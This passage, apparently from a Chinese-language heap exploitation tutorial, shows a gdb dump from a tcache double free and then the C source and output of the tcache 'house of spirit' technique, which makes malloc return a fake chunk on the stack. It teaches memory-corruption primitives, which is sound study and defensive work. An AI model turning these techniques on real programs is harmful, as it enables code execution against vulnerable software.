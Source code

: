 counts 变成 2，入口不变，表示 tcache bin 已经有两个 chunk 了，虽然是相同的。

两次 malloc 后：

```text
gdb-peda$ x/10gx 0x0000555555756000+0x10
0x555555756010: 0x0000000000000000      0x0000000000000000  <-- counts
0x555555756020: 0x0000000000000000      0x0000000000000000
0x555555756030: 0x0000000000000000      0x0000000000000000
0x555555756040: 0x0000000000000000      0x0000000000000000
0x555555756050: 0x0000555555756260      0x0000000000000000
```

于是我们得到了两个指向同一块内存区域的指针。

### tcache_house_of_spirit

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    malloc(1);  // init heap

    fprintf(stderr, "We will overwrite a pointer to point to a fake 'smallbin' region.\n");
    unsigned long long *a, *b;
    unsigned long long fake_chunk[64] __attribute__ ((aligned (16)));

    fprintf(stderr, "The chunk:  %p\n", &fake_chunk[0]);

    fake_chunk[1] = 0x110;  // the size
    memset(fake_chunk+2, 0x41, sizeof(fake_chunk)-0x10);

    fprintf(stderr, "Overwritting our pointer with the address of the fake region inside the fake chunk, %p.\n", &fake_chunk[0]);
    a = &fake_chunk[2];

    fprintf(stderr, "Freeing the overwritten pointer.\n");
    free(a);

    fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunk[0], &fake_chunk[2]);
    b = malloc(0x100);
    memset(fake_chunk+2, 0x42, sizeof(fake_chunk)-0x10);
    fprintf(stderr, "malloc(0x100): %p\n", b);
}
```

```text
$ ./tcache_house_of_spirit
We will overwrite a pointer to point to a fake 'smallbin' region.
The chunk:  0x7fffffffdb00
Overwritting our pointer with the address of the fake region inside the fake chunk, 0x7fffffffdb00.
Freeing the overwritten pointer.
Now the next malloc will return the region of our fake chunk at 0x7fffffffdb00, which will be 0x7fffffffdb10!
malloc(0x100): 0x7fffffffdb10
```

